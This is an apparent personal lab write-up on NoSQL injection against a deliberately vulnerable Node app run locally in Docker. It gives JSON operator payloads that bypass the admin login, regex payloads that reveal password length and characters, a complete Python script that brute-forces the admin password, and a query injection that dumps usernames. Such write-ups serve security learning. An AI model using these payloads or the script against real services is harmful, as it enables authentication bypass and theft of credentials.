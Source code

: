 # Definition
Something to do.
# Installing and Preparing Lab
I will use the [vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app) GitHub project that contains the docker machine to practice this vulnerability.
```shell
git clone https://github.com/Charlie-belmer/vulnerable-node-app
cd vulnerable-node-app
docker-compose up -d
```
___
After that, we should see something like this.
![[Pasted image 20230729173507.png]]
___
Now, we must make click on **Populate / Reset DB** to reset and create users to practice this lab.
![[Pasted image 20230729173637.png]]
___
# Attacking
## Contextualizing
So far, we don't know nothing about this web. Let's try out to logg in as *admin* user.
![[Pasted image 20230729180129.png]]
___
Now, we are going to use **BurpSuite** to know what is happening behind the *Login* button.
![[Pasted image 20230729180439.png]]
We can see that the web uses the **POST** method to send data along with **Json** as Content-Type.
___
So, what should we do now?
Well, we could start by using a *Payload* from [Payloads-all-the-things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection).
This payload says us that the password is *not equal* to **admin**.
```json
{
	"username":"admin",
	"password": {
		"$ne":"admin"
	}
}
```
![[Pasted image 20230729181026.png]]
And great, we did logg in as the *admin* user.
___
## NoSQLI Using REGEX
Now, in this lab, logging in as *admin* doesn't serve us of nothing, but will be there any way to find out the password of this *admin* user?
YES!, the solution is use **Regex**s that you can see them at [Payloads-all-the-things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection).
This payload uses a *regex* that matches if the password starts with `a`, that is the function of `^` operand.
```json
{
	"username":"admin",
	"password": {
		"$regex":"^a"
	}
}
```
![[Pasted image 20230729182436.png]]
So, according to the answer, you could know that the password doesn't start with `a`.
___
Then, you could iterate *all characters and numbers* until you find the character that the password starts with.
And the first character is `2`.
![[Pasted image 20230729182827.png]]
___
### Automatization With Python
We are going to automate the character search using a Python script.
But, frist, it would be useful for us to know the *password size*. So, how do we find that?
Let's use another payload from [Payloads-all-the-things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) to find out the *password size*.
```json
{
	"username":"admin",
	"password": {
		"$regex":".{30}"
	}
}
```
![[Pasted image 20230729184004.png]]
___
Now, let's vary by decreasing `30` until the answer is correct.
Then, the *password size* is `24`.
![[Pasted image 20230729184230.png]]
___
With the *password size* found we can continue with our **Python** script.
```Python
#!/usr/bin/python3
from pwn import *
import requests, time, sys, signal, string

# function to manage CTRL+c
def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# principal function to crack
def makeNoSQLI():
    # pwn bars
    p1 = log.progress("Brute force")
    p1.status("Staring brute force process")

    time.sleep(2)

    p2 = log.progress("Password cracked")

    password_cracked = ""
    # password size
    for index in range(0, 24):
        for character in characters:
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password_cracked, character)

            p1.status(post_data)

            headers = {'Content-Type': 'application/json'}
            r = requests.post(target_url, headers=headers, data=post_data)

            # validate character matched
            if ("Logged in as user" in r.text):
                password_cracked += character
                p2.status(password_cracked)
                break

# CTRL+c
signal.signal(signal.SIGINT, def_handler)

# global variables
target_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

if __name__ == "__main__":
    makeNoSQLI()
```
![[Pasted image 20230729190928.png]]
Now, let's use that *cracked password*.
![[Pasted image 20230729191004.png]]
___
## NoSQLI Queries Attack
If you remember that in SQL Injections you could use `' or 1=1-- -` to dump database information.
So, there is a similar way to achieve that in NoSQL Injections by using `' || '1'=='1` from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection).
![[Pasted image 20230729191530.png]]
Great, you were able to *dump* database information.
Then, with that **username list** you could use the above *Python* script to crack their passwords.
___